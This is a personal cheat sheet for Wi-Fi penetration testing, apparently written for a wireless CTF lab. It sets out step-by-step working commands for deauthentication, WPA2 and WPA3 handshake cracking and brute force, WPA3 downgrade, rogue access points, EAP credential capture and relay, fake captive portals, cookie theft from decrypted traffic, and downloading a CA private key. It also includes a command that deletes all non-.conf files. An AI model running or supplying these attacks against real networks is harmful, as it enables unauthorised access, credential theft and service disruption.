

# Main
- delete unused files: ``` find . -type f ! -name "*.conf" -exec rm {} \;```

## Basic Recon

- monitor channel has another name: wlan1mon 
- 'Station' = mac address of that AP | CH = channel
- ```--band abg```: This specifies that the tool should capture packets on both 2.4 GHz (b) and 5 GHz (a) bands
- ```--manufacturer```: This flag enables logging of manufacturer information for detected devices based on their MAC addresses.
- ```--wps```: This option includes WPS (Wi-Fi Protected Setup) information in the output, which can provide details about supported WPS versions and configuration methods.

### Init setup: Clean processes first:
 ``` sudo airmon-ng check kill ```

### Airodump basic
- Check AP/ESSID/Channel/etc..
    ```
    sudo airmon-ng start wlan0
    sudo airodump-ng wlan0mon -w ./scan --manufacturer --wps --band abg 
    -c {channel number for smaller scope}

    ```
- Turn off monitor mode
  
  ``` sudo airmon-ng stop wlan1mon ```    

### Crack hidden AP name
    ```
    // prep wordlist | customize it 
    cat /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt | awk '{print "wifi-" $1}' > ./wifi-rockyou.txt 
    
    // ready crack | Remember turn off airodump first !!! | try few more times
    iwconfig wlan0mon channel 11
    mdk4 wlan0mon p -t {BSSID} -f ./wifi-rockyou.txt
    ```
   
## OPN 
### Direct login with admin/admin
1. create {name}.conf file
   ```
        network={
        ssid="$ESSID"
        key_mgmt=NONE
        scan_ssid=1 
        }
   ```
2. connect with other wifi interface (not wlan2)```sudo wpa_supplicant -D nl80211 -i wlan2 -c free.conf ```
3. ``` sudo dhclient wlan2 ```
4. (optional) disconnect the connection
   ```
    ps -aux | grep wpa_supplicant

    sudo kill {pid}  // 2nd column
   ```
5. check ap ip ``` arp -a ```

### Sniff user/pwd
1. dump ``` sudo airodump-ng {wifi interface that connected to that AP} -w dump.cap --manufacturer --wps --band abg ``` [e.g. using wlan2 then dump with wlan2]
2. sniff http ``` wireshark dump.cap ```
3. search http if found portal pw


## WEP
- besside-ng NOT ALLOWED
- Try all the attacks
1. https://reconshell.com/wireless-pentesting-cheat-sheet/
- Target client not the host when runnning besside-ng
1. prepare wep.conf
    ```
    network={
        ssid="$ESSID"
        key_mgmt=NONE
        wep_key0=11BB33CD55
        wep_tx_keyidx=0
    }

    ```
2. ``` sudo wpa_supplicant -D nl80211 -i wlan2 -c wep.conf ```
3. ``` sudo dhclient wlan2 -v ```


## WPA2 PSK
### Get AP password
1. ``` airodump-ng wlan0mon -w ./ -c 6 --wps ```
   in parrell run: 
   ``` aireplay-ng -0 10 -a $BSSID wlan0mon ```
2. Crack ``` aircrack-ng ./scan-01.cap -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt ```
3. Get password by selecting index

### Locate ip of the AP web server (not necessarry)
1.  ``` airdecap-ng -e wifi-mobile -p starwars1 ./scan-01.cap ```
2.  Double click the xxx-dec.cap

### Login portal
1. psk.conf 
    ```
        network={
        ssid="wifi-mobile"
        psk="$PASSWORD"
        scan_ssid=1
        key_mgmt=WPA-PSK
        proto=WPA2
    }
2. stealing cookie/credentials from ```xxx-dec.cap (filter http post if have login history)``` from other user to login portal
3. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c psk.conf ```
4. ``` sudo dhclient wlan3 -v ```

### locate other clients and web server
1. ``` sudo arp-scan -I wlan3 -l ```


## WPA2 PSK (not visible)
1. prepare hostapd.conf
    ```
    interface=wlan1
    driver=nl80211
    hw_mode=g
    channel=1
    ssid=wifi-offices
    mana_wpaout=hostapd.hccapx
    wpa=2
    wpa_key_mgmt=WPA-PSK
    wpa_pairwise=TKIP CCMP
    wpa_passphrase=12345678
    ```
2. ```hostapd-mana hostapd.conf```
3. CTRL+C when AP-STA-POSSIBLE-PSK-MISMATCH.
4. extract ``` $WPA* xxxx ``` to ```password.txt```
5. Crack the wifi password ``` sudo hashcat -a 0 -m 22000 password.txt /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force ```

## WPA 3 SAE

### Brute force
- https://github.com/blunderbuss-wctf/wacker
1. ```cd /home/kali/Downloads/wifi-tools/wacker```
3. ``` ./wacker.py --wordlist /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462 ``` [ [frequency go search wifi channel x freq , ch10 = 2457](https://en.wikipedia.org/wiki/List_of_WLAN_channels)
4. prep wpa3sae.conf
   ```
    network={
        ssid="wifi-management"
        psk=""
        key_mgmt=SAE
        scan_ssid=1
        ieee80211w=2
    }

   ```
5. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c  wpa3sae.conf```
6. ``` sudo dhclient wlan3 -v  ```

### Downgrade attack
- can reuse method of fake beacon attack in wpa2 psk (not visible)
1. check csv file "-01.csv" from airodump if "privacy" = “SAE PSK"
2. check wireshark wlan0mon where ssid = xxx then see if this 2 value == false
   
3. prepare hostapd-sae.conf
   ```
    interface=wlan1
    driver=nl80211
    hw_mode=g
    channel=11
    ssid=wifi-IT
    mana_wpaout=hostapd-management.hccapx
    wpa=2
    wpa_key_mgmt=WPA-PSK
    wpa_pairwise=TKIP CCMP
    wpa_passphrase=12345678
   ```
4. ``` hostapd-mana hostapd-sae.conf ``` and wait handshake
5. turn off wlan0mon airodump first 
6. set same channel to the ap ```iwconfig wlan0mon channel 11```
7. trigger deauth ``` aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25  -c 10:F9:6F:AC:53:52 ```
8. extract ``` $WPA* xxxx ``` to ```password.txt```
9. Crack the wifi password ``` sudo hashcat -a 0 -m 22000 password.txt /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force ```
10. prep wpa3saepsk.conf
   ```
    network={
        ssid="wifi-management"
        psk=""
        key_mgmt=SAE
        scan_ssid=1
    }

   ```
11. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c  wpa3saepsk.conf```
12. ``` sudo dhclient wlan3 -v ```

## WPA 2 MGT (Recon stage)
### Check domain name of this AP
- https://github.com/r4ulcl/wifi_db
1. Choose channel to listen and dump pcap ``` airodump-ng wlan0mon -w ./scanc44 -c 44 --wps ```
2. ```cd /home/kali/Downloads/wifi-tools/wifi_db```
3. choose the kasmite file name for last param ``` python3 wifi_db.py -d wifichallenge.SQLITE /home/user/newwifi/scanc44-01 ```
4. Browse ``` sqlitebrowser wifichallenge.SQLITE ``` and go "browse data" tab, change table to IdentityAP

### Get email address of server cert
- https://gist.github.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2
1. ```cd /home/kali/Downloads/wifi-tools/pcap_filter```
2. ``` bash pcapFilter.sh -f /home/user/newwifi/scanc44-01.cap -C ```
3. Find Certificate: Subject --> last value

### Check EAP method 
- https://github.com/blackarrowsec/EAP_buster
1. ``` cd /home/kali/Downloads/wifi-tools/EAP_buster/ ```
2. using tool wifi_db to check users in this network (Table: IdentityAP)
   
   【OR] use the name found in there then ``` bash ./EAP_buster.sh $SSID 'GLOBAL\GlobalAdmin' wlan1 ```

## WPA 2 MGT - (Deauth attack) 
- Attack and Crack Client password to login as that user 
- ``` git clone https://github.com/s0lst1c3/eaphammer ```
1. ``` cd /home/kali/Downloads/wifi-tools/eaphammer ```
2. ``` python3 ./eaphammer --cert-wizard``` random fill something
3. *** Start rogue AP ``` python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced ```
4. Gather all possible AP BSSID instance of this ESSID
5. [in parallel another terminal] 
   ```
   // for loop create terminal for below
        airmon-ng start wlan0
        iwconfig wlan0mon channel 8964
        aireplay-ng -0 0 -a $BSSID1 wlan0mon -c $StationID

        airmon-ng start wlan1
        iwconfig wlan1mon channel 8964
        aireplay-ng -0 0 -a $BSSID1 wlan0mon -c $StationID

    // etc...

   ```
6. [If] certain station not work then try another stationID
7. [Success] --> grab hashcat Netntlm
8. ``` hashcat -a 0 -m 5500 juan.netntlmhash /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force ```
9. prep wpa2-mgt.conf
   ```
    network={
        ssid="wifi-corp"
        key_mgmt=WPA-EAP
        identity="CONTOSO\juan.tr"
        password="bulldogs1234"
        eap=PEAP
        phase2="auth=MSCHAPV2"
    }

   ``` 
10. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c wpa2-mgt.conf```
11. ``` sudo dhclient wlan3 ```
12. Try Login portal xxx.xxx.xxx.1 with identity and password 

### Brute force password with known user name 
- https://github.com/Wh1t3Rh1n0/air-hammer
1. ``` cd  /home/kali/Downloads/wifi-tools/air-hammer ```
2. prepare user list ``` echo 'CONTOSO\test' > test.user ```
3. GO FUCK!!! ``` ./air-hammer.py -i wlan3 -e wifi-corp -p /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt -u test.user ```

### Brute force username with know password
- https://github.com/Wh1t3Rh1n0/air-hammer
1. prepare domain tagged user list``` cat ~/top-usernames-shortlist.txt | awk '{print "CONTOSO\\" $1}' > ~/top-usernames-shortlist-contoso.txt ```
2. ``` cd  /home/kali/Downloads/wifi-tools/air-hammer ```
3. GO FUCK!!! ``` ./air-hammer.py -i wlan4 -e wifi-corp -P 12345678 -u ~/top-usernames-shortlist-contoso.txt ```

## WPA 2 MGT - (relay attack) 
- Try this when password uncrackable 
- https://github.com/sensepost/berate_ap
- https://github.com/sensepost/wpa_sycophant 
1. Prepare fake AP with interface wlan1 and copy first 3 hex of the AP you want to fake
   ```
    systemctl stop network-manager
    airmon-ng stop wlan1mon
    ip link set wlan1 down
    macchanger -m F0:9F:C2:00:00:00 wlan1
    ip link set wlan1 up
   ```
2. prep ```wpa2-mgt-fake.conf``` for below [Shell 3] 
   - change ssid
   - Dont want to connect back to ourselves, so rogue BSSID in bssid_blacklist
   ```
   network={
        ssid="wifi-regional-tablets"
        scan_ssid=1
        key_mgmt=WPA-EAP
        identity=""
        anonymous_identity=""
        password=""
        eap=PEAP
        phase1="crypto_binding=0 peaplabel=0"
        phase2="auth=MSCHAPV2"
        bssid_blacklist=F0:9F:C2:00:00:00
    }
   ```
3. [Shell 1] Host rougue AP 
   ``` 
   cd /home/kali/Downloads/wifi-tools/berate_ap/
   ./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
    ``` 
4. [In Parallel Shell 2] try deauth attack with -a = AP mac, -c = station (that connecting) mac
   ```
    iwconfig wlan0mon channel 44
    aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
   ```
5. [In Parallel Shell 3] Relay attack
   ```
   cd /home/kali/Downloads/wifi-tools/wpa_sycophant/
    ./wpa_sycophant.sh -c wpa2-mgt-fake.conf -i wlan3
   ```  
6. [If failed]: change ```.conf``` file ``` phase1="peapver=1" ```

### Compromising another AP with relaying already compromised AP 
1. Same step as above
2. only change ssid in ``` wpa2-mgt-fake.conf ``` to the new target AP

## WPA 2 MGT - Fake captive portal
- attack client that associated to this network
### [Option 1] Captive portal 
- password will be plaintext
1. Leverage eaphammer
   ```
   cd /home/kali/Downloads/wifi-tools/eaphammer
   sudo killall dnsmasq
   ./eaphammer --essid WiFi-Restaurant --interface wlan4 --captive-portal
   ```
2. [Shell 2] replay attack || choose -c station id that associated to your network
   ```
   iwconfig wlan0mon channel 44
   aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
   ```

### [Option 2] Hostile portal
- credential will be ntlm 
1. Leverage eaphammer
   ```
   cd /home/kali/Downloads/wifi-tools/eaphammer
   sudo killall dnsmasq
   ./eaphammer --essid WiFi-Restaurant --interface wlan4 --hostile-portal
   ```
2. [Shell 2] replay attack || choose -c station id that associated to your network
   ```
   iwconfig wlan0mon channel 44
   aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
   ```
3. Hashcat the result (netntlm)
   ```
   hashcat -a 0 -m 5600 password.hash /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force
   ```

### Exfiltrate CA cert for priviledge account
1. locate the files 
2. download all ``` wget -A txt -m -p -E -k -K -np  http://192.168.7.1/.internalCA/ ```
3. You will need server.crt, ca.crt, server.key

### [Option 3] Deauth attack (req getting files from another AP web server but same Channel)
1. Import cert from above
   ```
   python3 /home/kali/Downloads/wifi-tools/eaphammer/eaphammer --cert-wizard import --server-cert ./server.crt --ca-cert ./ca.crt --private-key ./client.key --private-key-passwd xd12345
   ```
2. Host Rogue AP
   ```
   cd /home/kali/Downloads/wifi-tools/eaphammer
   python3 ./eaphammer -i wlan4 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
   ```
3 [Shells] 
   ```
   // for N of APs' bssid, cover all possible AP in the area to do replay 

   airmon-ng start wlan1
   iwconfig wlan1mon channel 44
   aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:BA:6C:41


   airmon-ng start wlan2
   iwconfig wlan1mon channel 44
   aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan1mon -c 64:32:A8:BA:6C:41
   ```
